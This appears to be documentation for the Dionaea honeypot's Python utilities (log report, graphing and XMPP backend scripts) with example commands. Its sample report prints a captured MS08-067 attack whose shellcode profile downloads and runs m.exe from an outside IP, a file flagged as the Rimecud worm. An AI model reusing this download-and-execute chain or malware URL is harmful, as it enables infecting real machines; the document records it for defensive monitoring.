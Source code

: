 Utils
=====

Dionaea ships with some utils, as these utils are written in python and
rely on the python3 interpreter dionaea requires to operate, this
software can be found in modules/python/utils::


    readlogsqltree <#readlogsqltree> -
    modules/python/readlogsqltree.py

readlogsqltree is a python3 script which queries the logsql sqlite
database for attacks, and prints out all related information for every
attack.
This is an example for an attack, you get the vulnerability exploited,
the time, the attacker, information about the shellcode, the file
offered for download, and even the virustotal report for the file::

 2010-10-07 20:37:27
   connection 483256 smbd tcp accept 10.0.1.11:445 <- 93.177.176.190:47650 (483256 None)
   dcerpc bind: uuid '4b324fc8-1670-01d3-1278-5a47bf6ee188' (SRVSVC) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
   dcerpc bind: uuid '7d705026-884d-af82-7b3d-961deaeb179a' (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
   dcerpc bind: uuid '7f4fdfe9-2be7-4d6b-a5d4-aa3c831503a1' (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
   dcerpc bind: uuid '8b52c8fd-cc85-3a74-8b15-29e030cdac16' (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
   dcerpc bind: uuid '9acbde5b-25e1-7283-1f10-a3a292e73676' (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
   dcerpc bind: uuid '9f7e2197-9e40-bec9-d7eb-a4b0f137fe95' (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
   dcerpc bind: uuid 'a71e0ebe-6154-e021-9104-5ae423e682d0' (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
   dcerpc bind: uuid 'b3332384-081f-0e95-2c4a-302cc3080783' (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
   dcerpc bind: uuid 'c0cdf474-2d09-f37f-beb8-73350c065268' (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
   dcerpc bind: uuid 'd89a50ad-b919-f35c-1c99-4153ad1e6075' (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
   dcerpc bind: uuid 'ea256ce5-8ae1-c21b-4a17-568829eec306' (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
   dcerpc request: uuid '4b324fc8-1670-01d3-1278-5a47bf6ee188' (SRVSVC) opnum 31 (NetPathCanonicalize (MS08-67))
   profile: [{'return': '0x7df20000', 'args': ['urlmon'], 'call': 'LoadLibraryA'}, {'return': '0', 'args': ['', 'http://208.53.183.158/m.exe', '60.exe', '0', '0'], 'call': 'URLDownloadToFile'}, {'return': '32', 'args': ['60.exe', '895'], 'call': 'WinExec'}, {'return': '0', 'args': ['-1'], 'call': 'Sleep'}]
   offer: http://208.53.183.158/m.exe
   download: 3eab379ddac7d80d3e38399fd273ddd4 http://208.53.183.158/m.exe
     virustotal 2010-10-07 04:59:07 5/38 (13%) http://www.virustotal.com/file-scan/report.html?id=265e39edcba9d9004451601544e625f2d3d04f837d0aaf1f8464cb2c819c1939-1286420347
       names 'High Risk Fraudulent Security Program' 'Suspicious file' 'Trojan.DownLoader1.27100' 'Worm.Win32.Rimecud' 'Worm:Win32/Rimecud.B'


To create such report for your own honeypots activities for the last 24
hours run::


    ./readlogsqltree.py  -t $(date '+%s')-24*3600 /opt/dionaea/var/dionaea/logsql.sqlite


    gnuplotsql <#gnuplotsql> - modules/python/gnuplotsql.py

gnuplotsql is a very slow python3 script which runs some queries on the
logsql <#logsql> sqlite database and creates graphs with gnuplot of the
data, stores them on disk and creates an index of the data. The images
are per protocol and look like this: Overview for dionaea smbd.
Here <gnuplotsql> is how the whole thing looks like.
To create such images of your own data, run::


    ./gnuplotsql.py -d /opt/dionaea/var/dionaea/logsql.sqlite -p smbd -p epmapper -p mssqld -p httpd -p ftpd

The blog got something on gnuplotsql as well:

  * `2010-12-05 sudden death <http://carnivore.it/2010/12/05/sudden_death>`_
  * `2010-10-01 Infosanity's Blog: gnuplotsql.py <http://blog.infosanity.co.uk/2010/10/01/gnuplotsql-py/>`_
  * `2010-09-19 gnuplotsql <http://carnivore.it/2010/09/19/gnuplotsql>`_

::

    pg_backend <#pg_backend> - modules/python/xmpp/pg_backend.py

pg_backend is the backend for logxmpp <#logxmpp>, currently it is a
python2.x script which uses pyxmpp to access the xmpp service. It parses
the messages received and can store the events in a postgres database
and the received files on disk. pg_backend requires an xmpp account::

    /without db/
    ./pg_backend.py -U USER@sensors.carnivore.it -P XMPPPASS -M dionaea.sensors.carnivore.it -C anon-files -C anon-events -f /tmp/

    /with db/
    create database

    psql ...

    start backend

    ./pg_backend.py -U USER@sensors.carnivore.it -P XMPPPASS -M dionaea.sensors.carnivore.it -C anon-files -C anon-events -s DBHOST -u DBUSER -d xmpp -p DBPASS -f /tmp/
